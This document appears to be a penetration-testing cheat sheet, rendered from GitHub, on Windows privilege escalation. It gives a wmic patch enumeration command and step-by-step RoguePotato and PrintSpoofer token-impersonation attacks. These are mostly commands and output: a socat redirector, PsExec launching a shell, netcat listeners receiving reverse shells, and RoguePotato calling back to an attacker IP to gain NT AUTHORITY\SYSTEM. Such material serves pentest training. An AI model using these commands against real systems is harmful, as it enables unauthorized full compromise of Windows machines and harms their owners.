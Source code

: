 # Kernel Exploits

## 01 - Manual

### 1.1 - Enumerate

When discovering an outdated windows system. Exploiting may come to a great risk to perform a system that might crash since the kernel is required to function the whole operating system which is part of the core components. This is a last resort to perform the privilege escalation so choose the following vulnerabilities and don't overdo it. Refer to the **Auditing Tools** section

`C:\> wmic qfe get Caption,Description,HotFixID,InstalledOn`

### 1.2 - RoguePotato

Start with a redirector using `socat` then check if `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is enabled

```
$ sudo socat tcp-listen:135,reuseaddr,fork tcp:<target_IP>:9999

C:\Windows\system32> whoami
win-qba94kb3iof\admin

C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[snip]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[snip]..
```

Start a shell handler before running `PsExec64.exe` as in `NT AUTHORITY\LOCAL SERVICE` to receive a callback shell.

```
C:\Windows\system32> cd c:\Tools

C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\local service

C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
..[snip]..
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
..[snip]..

C:\Windows\system32> cd c:\Tools

C:\Tools> RoguePotato.exe -r <attacker_IP> -e shell.exe -l 9999
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] IStoragetrigger written:106 bytes
[*] SecurityCallback RPC call
[*] ServerAlive2 RPC Call
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: shell.exe
[+] RoguePotato gave you the SYSTEM powerz :D

$ sudo nc -lnvp 53
C:\Tools> whoami
nt authority\system
```

### 1.3 - PrintSpoofer

```
C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\local service

C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
..[snip]..
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
..[snip]..

C:\Windows\system32> cd c:\Tools

C:\Tools> PrintSpoofer.exe -c shell.exe -i
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\system
```

## References

- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

- [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

- [Potatoes Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

- [Windows Privilege Escalation SeImpersonatePrivilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)

- [Abusing SeImpersonatePrivilege On Users to Become System](https://shreyapohekar.com/blogs/abusing-seimpersonateprivilege-on-users-to-become-system/)